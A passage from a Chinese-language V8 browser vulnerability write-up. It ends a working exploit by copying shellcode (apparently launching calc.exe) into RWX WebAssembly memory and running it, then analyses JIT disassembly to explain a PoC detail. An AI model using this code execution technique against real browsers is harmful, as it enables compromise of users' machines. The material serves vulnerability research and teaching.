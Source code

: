```javascript
  0x24, 0x48, 0x31, 0xFF, 0x41, 0x8B, 0x3C, 0x83, 0x4C, 0x01,
  0xC7, 0x48, 0x89, 0xD6, 0xF3, 0xA6, 0x74, 0x05, 0x48, 0xFF,
  0xC0, 0xEB, 0xE6, 0x59, 0x66, 0x41, 0x8B, 0x04, 0x44, 0x41,
  0x8B, 0x04, 0x82, 0x4C, 0x01, 0xC0, 0x53, 0xC3, 0x48, 0x31,
  0xC9, 0x80, 0xC1, 0x07, 0x48, 0xB8, 0x0F, 0xA8, 0x96, 0x91,
  0xBA, 0x87, 0x9A, 0x9C, 0x48, 0xF7, 0xD0, 0x48, 0xC1, 0xE8,
  0x08, 0x50, 0x51, 0xE8, 0xB0, 0xFF, 0xFF, 0xFF, 0x49, 0x89,
  0xC6, 0x48, 0x31, 0xC9, 0x48, 0xF7, 0xE1, 0x50, 0x48, 0xB8,
  0x9C, 0x9E, 0x93, 0x9C, 0xD1, 0x9A, 0x87, 0x9A, 0x48, 0xF7,
  0xD0, 0x50, 0x48, 0x89, 0xE1, 0x48, 0xFF, 0xC2, 0x48, 0x83,
  0xEC, 0x30, 0x66, 0x81, 0xE4, 0xF0, 0xFF, 0x41, 0xFF, 0xD6
]);

for(let i = 0; i < shellcode.length; ++i) {
	rwx_bytes[i] = shellcode[i]
}

// 调用 wasm 模块导出的函数, 触发 shellcode 执行
wasmInstance.exports.main();
```

## 扩展分析

虽然我们已经分析了漏洞成因，写出了利用代码，但 POC 中还有很多细节是我们没有分析清楚的，这部分会从中选取几个简单分析下。

### array.prop = 1

POC 代码中 `array.prop = 1;` 这行代码，看起来很奇怪，但是如果把它删掉漏洞利用就会失败，下面分析一下这行代码的作用。

对象本身的内容我们之前已经分析的很细了，这行代码不太可能是影响了对象的内容了，更大可能是影响了 JIT 编译生成的代码，所以从 `jit` 函数入手，对比两种情况下编译出的代码有什么区别，具体操作：
- `alert('debug'); debug = jit;` 配合之前的调试属性设置时使用的 `Storeic::Store` 函数的断点, 找到 `jit` 函数对象的地址。
- `jit` 函数对象的类型是 `JSFunction`，0x18 偏移处存放了 `Code` 对象的指针，编译器生成的代码位于 `Code` 对象 0x40 偏移处。

利用失败时：

```
00007DBF001C4640 8B 59 D0             mov         ebx,dword ptr [rcx-30h]
00007DBF001C4643 49 03 DE             add         rbx,r14
00007DBF001C4646 F6 43 07 01          test        byte ptr [rbx+7],1
00007DBF001C464A 74 05                je          00007DBF001C4651
00007DBF001C464C E9 0F 82 E8 FF       jmp         00007DBF0004C860
00007DBF001C4651 55                   push        rbp
00007DBF001C4652 48 89 E5             mov         rbp,rsp
00007DBF001C4655 56                   push        rsi
00007DBF001C4656 57                   push        rdi
00007DBF001C4657 50                   push        rax
00007DBF001C4658 48 83 EC 08          sub         rsp,8
00007DBF001C465C 48 89 75 E0          mov         qword ptr [rbp-20h],rsi
00007DBF001C4660 49 3B 65 60          cmp         rsp,qword ptr [r13+60h]
00007DBF001C4664 0F 86 D1 00 00 00    jbe         00007DBF001C473B
00007DBF001C466A 48 8B 4D 18          mov         rcx,qword ptr [rbp+18h]
00007DBF001C466E F6 C1 01             test        cl,1
00007DBF001C4671 0F 84 16 01 00 00    je          00007DBF001C478D
;
; 检查参数对象的 map
;
00007DBF001C4677 BF 79 E7 25 08       mov         edi,825E779h
00007DBF001C467C 39 79 FF             cmp         dword ptr [rcx-1],edi
00007DBF001C467F 0F 85 0F 01 00 00    jne         00007DBF001C4794
00007DBF001C4685 8B 79 0F             mov         edi,dword ptr [rcx+0Fh]
00007DBF001C4688 49 03 FE             add         rdi,r14
;
; 检查 corrupted_prop 的 map，对于 object_2 来说这个条件无法满足
;
```